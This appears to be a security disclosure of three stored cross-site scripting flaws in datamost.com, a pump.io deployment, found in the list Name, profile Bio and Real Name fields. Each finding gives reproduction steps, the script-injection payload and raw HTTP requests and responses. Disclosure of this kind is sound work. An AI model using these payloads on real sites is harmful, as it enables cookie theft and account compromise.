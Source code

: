 
### Stored XSS #1

https://datamost.com/<USERNAME>lists

- Vulnerable parameter "Name"

To Replicate Findings:
  

1. Login to account
2. Go to Lists page
3. Select New List
4. Select "Name" 
4. Add XSS payload "><script>alert(document.cookie)</script> 


```
// HTTP POST request with XSS payload

POST /api/user/<USERNAME>/feed/minor HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

{"verb":"create","object":{"objectType":"collection","objectTypes":["person"],"displayName":"\"><script>alert(document.cookie)</script>","content":"test"}}


// HTTP response showing unsanizited XSS payload

HTTP/1.1 200 OK
X-Powered-By: Express
Vary: X-HTTP-Method-Override, Accept-Encoding
Server: pump.io/5.1.0 express/4.16.2 node.js/v6.17.1
[...]

{"verb":"create","object":{"objectType":"collection","objectTypes":["person"],"displayName":"\"><script>alert(document.cookie)</script>","content":";"test",
[...]
```
  

### Stored XSS #2

https://datamost.com/main/settings

- Vulnerable parameter "Bio"

To Replicate Findings:

1. Login to account
2. Go to settings page
3. Select "Bio" 
4. Add XSS payload "><script>alert(`xss`)</script>
  

```
// HTTP POST request with XSS payload

PUT /api/user/test1231123123123/profile HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]

"pump_io":{"followed":false},"location":{"objectType":"place","displayName":"\"test"},"summary":"\"><script>alert(`bio_xss`)</script>"[...]


// HTTP response showing unsanitized XSS payload

HTTP/1.1 200 OK
X-Powered-By: Express
Server: pump.io/5.1.0 express/4.16.2 node.js/v6.17.1
[...]

"location":{"objectType":"place","displayName":"\"><script>alert(`bio_xss`)</script>"}
[...]


// HTTP GET request to feed page

GET /api/user/<USERNAME>/feed/minor?since=<URL_MODIFIED> HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


// HTTP response showing unsanitized XSS payload

"location":{"objectType":"place","displayName":"\"><script>alert(`xss`)</script>"}
[...]
```

  
  
### Stored XSS #3

https://datamost.com/main/settings


- Vulnerable parameter "Real Name"

To Replicate Findings:

1. Login to account
2. Go to settings page
3. Select "Real Name"
4. Add XSS payload "><script>alert(`xss`)</script>


```
// HTTP POST request with XSS payload

PUT /api/user/test1231123123123/profile HTTP/1.1
Host: datamost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
[...]


{"preferredUsername":"test1231123123123","url":"https://datamost.com/test1231123123123","displayName":"\"><script>alert(1)</script>"
[...]
```
  

